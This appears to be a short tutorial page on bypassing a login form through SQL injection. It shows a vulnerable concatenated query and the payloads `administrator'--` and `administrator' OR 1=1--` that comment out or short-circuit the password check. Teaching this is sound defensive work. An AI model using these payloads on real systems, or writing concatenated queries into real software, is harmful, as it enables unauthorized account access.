 ```yaml
---
title: Login Bypass
date: 2025-10-12
description: Introduce how to bypass login via SQL injection.
weight: 1
---
```


## Query Statement

Suppose that the query statement of a login operation is:

```sql
SELECT * FROM users WHERE username = 'user' AND password = 'pwd'
```

And the frontend provides a form to login, which sends `username` and `password` to the backend. Then the backend simply concatenates these two arguments with the query statement, where attackers are able to bypass the login authentication.

For example, when a user submits the login information `my-name:my-password`, the query statement will be:

```sql
SELECT * FROM users WHERE username = 'my-name' AND password = 'my-password'
```

## Payload Construction

As we all known, all contents after `--` will be treated as comments in SQL. So the payload can be:

```text
username: administrator'--
      or: administrator' OR 1=1--
password: 123
```

Then the query statement will be:

```sql
SELECT * FROM users WHERE username = 'administrator'-- AND password = '123'
```

Or

```sql
SELECT * FROM users WHERE username = 'administrator' OR 1=1-- AND password = '123'
```

For the previous one, the backend will not check the password.

For the later one, the condition `1=1` is always `true`, so the query is always `true`.

Both statements can bypass the login authentication.

## Reference

- [PortSwigger](https://portswigger.net/web-security/sql-injection/)
